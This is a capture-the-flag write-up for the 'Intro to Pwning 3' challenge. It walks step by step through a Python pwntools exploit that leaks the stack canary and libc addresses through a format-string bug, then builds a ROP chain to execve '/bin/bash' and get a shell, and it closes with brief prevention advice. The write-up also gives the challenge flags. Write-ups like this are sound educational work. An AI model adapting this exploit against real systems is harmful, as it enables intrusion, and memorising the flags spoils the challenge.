

# Intro to Pwning 3

## Information
Category: Pwn   
Difficulty: Baby   
Author: LiveOverflow   
Dependencies: Intro to Pwning 2   
First Blood: LinHe   
Description: Service running at: hax1.allesctf.net:9102  

## Solution
Additionally to Intro to Pwning 2, we have the handicap that the WINgarium_leviosa() function is commented out, meaning we have to call execve() ourselves
using a ropchain. Just like before, we get all necessary information through a format string vulnerablity, that leaks the stack.   

So here is a summary of what we all need to craft a succesfully exploit.


1. stack canary 

2. reference into the stack segment

3. reference into code segment of libc


We first define some constants for useful indexes of our stack leak:

```python
#!/usr/bin/python
from pwn import *

STACK_CANARY_INDEX = 43
LIBC_RET_P_INDEX = 49
MAIN_RET_P_INDEX = 45
BASE_PTR_INDEX = 44

```

Next, we need to provide the flag for the last challange:

```python
# first stage
p = process("./pwn3", stdin=PIPE, stdout=PIPE)
print("[info] attached to process ")

#prepare first payload (password)
PASSWORD = "CSCG{THIS_IS_TEST_FLAG}" #CSCG{NOW_GET_VOLDEMORT}

# info
print("[info] password is")
print("[info] " + PASSWORD)

# inject payload
p.recvuntil("Enter the password of stage 2:\n")
p.sendline(PASSWORD)

```

We conduct our format string exploit:

```python
# info 
print("successfully passed pw check")

# format string exploitation
fstring = "%p " * 51
p.recvuntil("Enter your witch name:\n")
p.sendline(fstring)
leak = p.recvuntil(" enter your magic spell:\n")
addr_arr = leak.split(" ")

```

Here, we interpret the stack leak using our indexes explained at the top:

```python
# stack protector
stack_canary = addr_arr[STACK_CANARY_INDEX]

# get some addresses
p_libc = addr_arr[LIBC_RET_P_INDEX]
base_ptr = addr_arr[BASE_PTR_INDEX]

# get offsets of mapped files (lets you then calculate every function and subroutine)
p_libc_code_off = int(p_libc,16) - 0x271e3
p_pwn3_code_off = int(addr_arr[MAIN_RET_P_INDEX],16) - 0xd7e


# lets get some address functions
p_execve = p_libc_code_off + 0xe6010
p_execvp = p_libc_code_off + 0xe6550 # 0xc1550
p_system =  p_libc_code_off + 0x554e0 # 0x304e0
p_exit = p_libc_code_off + 0x49d40 # 0xe5fb0

```

We now output our findings for debugging 

```python
# info
print(" ###################### Stack Leaks ######################")
print("[info] libc .code offset@ " + hex(p_libc_code_off) )
print("[info]   --> execve@ " + hex(p_execve))
print("[info]   --> system@ " + hex(p_system))
print("[info]   --> exit@ " + hex(p_exit))
print("[info]   --> execvp@ " + hex(p_execvp))
print("[info] stack_canary@ " + stack_canary)
print("[info] stack base ptr@ " + base_ptr)
print("[info] pwn3 .code offset@ " + hex(p_pwn3_code_off))
print(" ##########################################################")

```


And finally we start crafting our exploit. Our payload, as last time, must start with the "Expelliarmus" in order to pass the string check.
We append "/bin/bash" after a nullbyte, such that strcmp() will terminate before that string. We pad the rest of the
"allocated stackbuffer" with nullbytes, but this is not important. 

```python
#preparing payload
payload = "Expelliarmus\x00" # that string
payload += "/bin/bash" # 
payload += (0xff - (len(payload)+1)) * '\x00' # fill to 255
payload += 10 * 'A' # alignment


```

We append the correct stack canary 

```python

# stack canary
payload += p64(int(stack_canary,16), endian='little') # place stack canary

```

We append the correct base pointer, this is actually not necessary in this case

```python
# base pointer
payload += p64(int(base_ptr,16), endian='little')

```

We create our ROP chain, that will load a pointer to "/bin/bash" into rdi. It will also load rsi and rbx with 0. 

```python
# use rop gadgets // create args (works)
payload += p64((p_pwn3_code_off+0xdf3), endian='little') # rop gadget to pop rdi
payload += p64(int(base_ptr,16)-0x123, endian='little') # pointer to /bin/sh


payload += p64((p_libc_code_off+0x2709c), endian='little') # rsi (verified)
payload += p64(0x0, endian='little') # ---> null

payload += p64((p_libc_code_off+0x10582d), endian='little') # rdx (verified)
payload += p64((0x0), endian='little') # --> null
payload += p64((0x0), endian='little') # --> null
payload += p64((0x0), endian='little') # --> null


payload += p64((p_pwn3_code_off+0x816), endian='little') # stack alignment

```

And finally call execve() with the previously set params.

```python
payload += p64(p_execve, endian='little')

p.sendline(payload)
p.interactive()

```

If everything goes to plan, we get a shell!




flag: CSCG{VOLDEMORT_DID_NOTHING_WRONG}


## Prevention

A possible fix for this issue could include sanitizing user input before echoing it via printf(). Outdatad functions like
gets() should also be avoided.